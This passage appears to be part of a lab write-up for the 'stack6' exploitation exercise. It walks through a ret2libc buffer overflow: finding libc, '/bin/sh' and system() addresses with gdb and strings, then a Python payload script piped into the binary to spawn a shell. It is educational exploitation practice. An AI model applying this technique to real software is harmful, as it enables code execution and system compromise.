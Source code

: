 	Noice: 
	`0x7ffff79e2000  0x7ffff7bc9000  0x1e7000  0x0 /lib/x86_64-linux-gnu/libc-2.27.so`
	    ^note this is the start address

10. On a separte terminal find the `/bin/sh` address within libc: 
    `strings -a -t x /lib/x86_64-linux-gnu/libc-2.27.so | grep "/bin/sh"`
      -a   = Scan entire file
      -t x = Print the offset location of the string in hexdecimal

    Output:
    `1b3e1a /bin/sh`

11. Confrim in gdb:
	gdb> x/s <system-syscall-address> <bin-sh-address>
	gdb> x/s 0x7ffff79e2000 + 0x1b3e1a
	```
	0x7ffff7b95e1a:	"/bin/sh"
	```

12. Finding the system syscall address:
    gdb> p system
    `$5 = {int (const char *)} 0x7ffff7a31550 <__libc_system>`


13. Python exploit
```
#!/usr/bin/python
import struct

padding = "A" * 70
padding+= "BBBBCCCCDDDDEEEEFF"
# FFGGGG <--this overwrite rip

# libc system
system = "\x50\x15\xa3\xf7\xff\x7f"

# return address after system
ret = "\x90" * 4

# libc /bin/sh
shell = "\x1a\x5e\xb9\xf7\xff\x7f"

print padding+system+ret+shell
```

14. (python stack6-exploit.py; cat) | ./stack6
15. id
    <output of id bash command>